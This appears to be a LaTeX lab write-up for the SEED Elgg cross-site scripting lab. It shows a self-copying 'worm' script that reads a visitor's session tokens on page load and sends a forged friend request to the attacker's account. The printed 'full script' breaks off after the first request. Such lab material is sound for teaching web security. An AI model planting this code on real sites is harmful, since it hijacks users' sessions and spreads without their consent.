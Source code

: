 \documentclass[12pt]{article}
\begin{document}
For the second part, we need to obtain a copy of the script from the web page or we can just copy paste the entire thing. We use the DOM API to retrieve a copy of the script in the following way:
\begin{verbatim}
<script id="worm">
	var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
	var jsCode = document.getElementById("worm").innerHTML;
	var tailTag = "</" + "script>";
	var wormCode = headerTag + jsCode + tailTag;
</script>
\end{verbatim}

The full script is the following:
\begin{verbatim}
<script id="worm" type="text/javascript">
    window.onload = function () {
        // First part: Send Samy a friend request from the visitor's account
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token= elgg.security.token.__elgg_token; // Security Token
        var userName = elgg.session.user.name;
        var guid = elgg.session.user.guid;
        var SamyID = 59;
        if (guid == SamyID) return; // no attack if Samy is the visitor
        var sendurl = `/action/friends/add?friend=${SamyID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        // Create and send Ajax request to add friend
        var Ajax1 = new XMLHttpRequest();
        Ajax1.open("GET", sendurl, true);
        Ajax1.setRequestHeader("Host", "www.seed-server.com");
        Ajax1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax1.send();


\end{verbatim}
\end{document}
